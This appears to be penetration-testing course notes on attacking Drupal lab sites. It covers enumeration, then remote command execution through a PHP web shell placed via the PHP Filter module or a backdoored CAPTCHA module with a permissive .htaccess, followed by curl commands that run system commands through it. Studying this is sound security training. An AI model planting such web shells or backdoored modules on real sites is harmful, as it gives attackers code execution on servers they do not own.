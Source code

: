 

# Discovery/Footprinting


A Drupal website can be identified in several ways, including by the header or footer message Powered by Drupal, the standard Drupal logo, the presence of a `CHANGELOG.txt` file or `README.txt` file, via the page source, or clues in the `robots.txt` file such as references to `/node`.

`$ curl -s http://drupal.inlanefreight.local | grep Drupal`

Another way to identify Drupal CMS is through nodes. Drupal indexes its content using nodes. A node can hold anything such as a blog post, poll, article, etc. The page URIs are usually of the form `/node/<nodeid>`.


Note: Not every Drupal installation will look the same or display the login page or even allow users to access the login page from the internet.

# Default Users

Drupal supports three types of users by default:

-   Administrator: This user has complete control over the Drupal website.
-    Authenticated User: These users can log in to the website and perform operations such as adding and editing articles based on their permissions.
-    Anonymous: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.


    
# Enumeration


`$ curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""`


`$ droopescan scan drupal -u http://drupal.inlanefreight.local`


# Leveraging the PHP Filter Module

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the PHP filter module, which "Allows embedded PHP code/snippets to be evaluated."

From here, we could tick the check box next to the module and scroll down to Save configuration. 

Next, we could go to Content --> Add content and create a Basic page.

We can now create a page with a malicious PHP snippet such as the one below. 
```
    <?php
    system($_GET['cmd']);
    ?>
```
We also want to make sure to set Text format drop-down to PHP code. After clicking save, we will be redirected to the new page, in this example `http://drupal-qa.inlanefreight.local/node/3`. Once saved, we can either request execute commands in the browser by appending `?cmd=id` to the end of the URL to run the id command or use cURL on the command line. From here, we could use a bash one-liner to obtain reverse shell access.

`$ curl -s http://drupal-qa.inlanefreight.local/node/3?cmd=id | grep uid | cut -f4 -d">"`

From version 8 onwards, the PHP Filter module is not installed by default. To leverage this functionality, we would have to install the module ourselves. 

`$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz`

Once downloaded go to `Administration > Reports > Available updates`.

Note: Location may differ based on the Drupal version and may be under the Extend menu.

From here, click on Browse, select the file from the directory we downloaded it to, and then click Install.


Once the module is installed, we can click on Content and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select PHP code from the Text format dropdown.



# Uploading a Backdoored Module

    
Drupal allows users with appropriate permissions to upload a new module. Modules can be found on the drupal.org website. Let's pick a module such as CAPTCHA.

`$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz`
    
`$ tar xvf captcha-8.x-1.2.tar.gz`

Create a PHP web shell

Next, we need to create a `.htaccess` file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the `/modules` folder.

```
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

`$ mv shell.php .htaccess captcha`

`$ tar cvf captcha.tar.gz captcha/`

Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the + Install new module button, and we will be taken to the install page, such as http://drupal.inlanefreight.local/admin/modules/install Browse to the backdoored Captcha archive and click Install.

Once the installation succeeds, browse to /modules/captcha/shell.php to execute commands.

`$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?cmd=id`


